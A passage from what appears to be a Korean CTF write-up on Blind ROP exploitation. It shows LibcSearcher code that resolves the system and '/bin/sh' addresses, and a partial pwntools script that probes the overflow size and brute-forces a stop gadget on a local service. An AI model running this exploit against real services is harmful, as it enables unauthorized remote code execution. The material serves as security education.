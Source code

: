 #### **Libc Search**

LibcSearcher 모듈을 이용해 어떤 Libc를 사용하고 있는지 확인 가능하다.

[https://github.com/lieanu/LibcSearcher](https://github.com/lieanu/LibcSearcher)

```
from LibcSearcher import *
 
lib = LibcSearcher('puts', addr_puts_libc)
libcBase = addr_puts_libc - lib.dump('puts')
system_addr = libcBase + lib.dump('system')
binsh_addr = libcBase + lib.dump('str_bin_sh')
 
log.info('libc base : ' + hex(libcBase))
log.info('system : ' + hex(system_addr))
log.info('binsh : ' + hex(binsh_addr))
```

## **Exploit Code**

```python
from pwn import *
from LibcSearcher import *

ip = '127.0.0.1'
port = 10001
base = 0x400000

def check_overflow():
	size=0
	i=0
	while True:
		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline('a'*i)
		try:
			recv = r.recvline()
		except Exception as e:
			r.close()
			size = i-1
			break
		r.close()
		i+=1
	return size

def find_stop_gadget(size):
	p = log.progress("Searching for Stop Gadget")

	for offset in range(0x0,0x1000):
		addr = int(base + offset)

		payload = 'A' * size
		payload += p64(addr)

		if offset % 0x100 == 0:
			log.info('Progress to 0x%x' % offset)
	
		try:
			r = remote(ip,port,level='error')
			r.recvline()
			r.send(payload)
			recv = r.recv(timeout=0.2)
			r.close()

```